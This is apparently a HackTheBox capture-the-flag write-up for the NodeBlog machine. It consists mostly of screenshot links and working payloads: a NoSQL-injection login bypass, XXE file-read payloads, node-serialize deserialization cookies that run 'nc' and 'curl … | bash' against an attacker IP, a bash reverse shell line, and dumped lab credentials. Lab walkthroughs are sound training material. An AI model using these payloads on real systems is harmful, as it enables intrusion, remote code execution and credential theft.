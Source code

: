 # nmap 
## nmap all ports
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/nmap%20%20all%20ports.png)

## nmap services and versions
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/nmap%20services%20and%20versions.png)

# domain
## main page
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/main%20page.png)

# login
## invalid username
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/login%20invalid%20username.png)

## valid username: admin
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/login%20invalid%20username.png)

# burp login intercept
![](burp%20login.png)
## nosqli payload in burp --> bypass login
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/burp%20nosqli%20login%20bypass.png)

## login dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/domain%20login%20dashboard.png)

## wrong payload --> error messages --> new endpoint
##  burp request
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/burp%20request.png)

## burp response
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/burp%20response.png)
## new path:
### paths cant be accesed
````
/opt/blog/node_modules/raw-body/index.js
/opt/blog/node_modules/body-parser/lib/types/json.js
````

## common nodejs files
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/root%20path.png)

## XXE file upload
````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
 <post>
 <title> Post</title>
 <description>desc</description>
 <markdown>&file;</markdown>
 </post>

`````

## XXE succesfull
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/XXE%20succusfull.png)

## read /opt/blog/server.js
````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
 <post>
 <title> Post</title>
 <description>desc</description>
 <markdown>&file;</markdown>
 </post>

`````

## server.js file succesfull
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/succesfull%20read%20server.js.png)

## server.js snippet
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/server.js%20snippet.png)

## node-serialize vulnerability search
![](search%20for%20node-serialize.png)

![](node-serialize%20rce.png)

## node-serialize payload
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/node-serialize%20payload%20raw.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/node-serialize%20rce.png)

## final payload
````
Cookie: auth={"user":{"$ne":null},"sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"nc 10.10.14.5 9001\", function(error, stdout, stderr) { console.log(stdout) });}()"}

Cookie: auth={"user":"admin","sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"nc 10.10.14.5 9001\", function(error, stdout, stderr) { console.log(stdout) });}()"}

Cookie: auth={"user":{"$ne":null},"sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"curl 10.10.14.5:5000 | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}


`````

## burp send final payload url encoded
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/burp%20succesful%20payload.png)

## cookie test payload url encoded
````
%7b%22%75%73%65%72%22%3a%7b%22%24%6e%65%22%3a%6e%75%6c%6c%7d%2c%22%73%69%67%6e%22%3a%22%34%62%37%30%32%39%63%32%61%34%65%64%37%35%32%37%32%35%35%33%31%35%66%63%33%35%36%62%66%30%38%32%22%2c%20%22%68%65%6c%6c%6f%22%3a%20%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%6e%63%20%31%30%2e%31%30%2e%31%34%2e%35%20%39%30%30%31%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d


`````

## cookie reverse shell url encoded
````
%7b%22%75%73%65%72%22%3a%7b%22%24%6e%65%22%3a%6e%75%6c%6c%7d%2c%22%73%69%67%6e%22%3a%22%34%62%37%30%32%39%63%32%61%34%65%64%37%35%32%37%32%35%35%33%31%35%66%63%33%35%36%62%66%30%38%32%22%2c%20%22%68%65%6c%6c%6f%22%3a%20%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%35%3a%35%30%30%30%20%7c%20%62%61%73%68%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d

`````

## succesfull shell
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/admin%20shell.png)
## payload
````
Cookie: auth=%7b%22%75%73%65%72%22%3a%7b%22%24%6e%65%22%3a%6e%75%6c%6c%7d%2c%22%73%69%67%6e%22%3a%22%34%62%37%30%32%39%63%32%61%34%65%64%37%35%32%37%32%35%35%33%31%35%66%63%33%35%36%62%66%30%38%32%22%2c%20%22%68%65%6c%6c%6f%22%3a%20%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%5c%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%5c%22%29%2e%65%78%65%63%28%5c%22%63%75%72%6c%20%31%30%2e%31%30%2e%31%34%2e%35%3a%38%30%30%30%20%7c%20%62%61%73%68%5c%22%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d

Cookie: auth={"user":{"$ne":null},"sign":"4b7029c2a4ed7527255315fc356bf082", "hello": "_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"curl 10.10.14.5:8000 | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}





`````

## serve malicious index.html file
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

## user.txt
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/admin%20folder%20permission%20denied.png)

## mongodb database
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/server.js%20mongodb%20path.png)
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/dump%20mongodb%20database.png)

## mongodump
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/mongodump%20result.png)

### creds
````
admin:IppsecSaysPleaseSubscribe

`````

## root shell
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/NodeBlog/screenshots/root%20shell.png)

XXXXXXXXX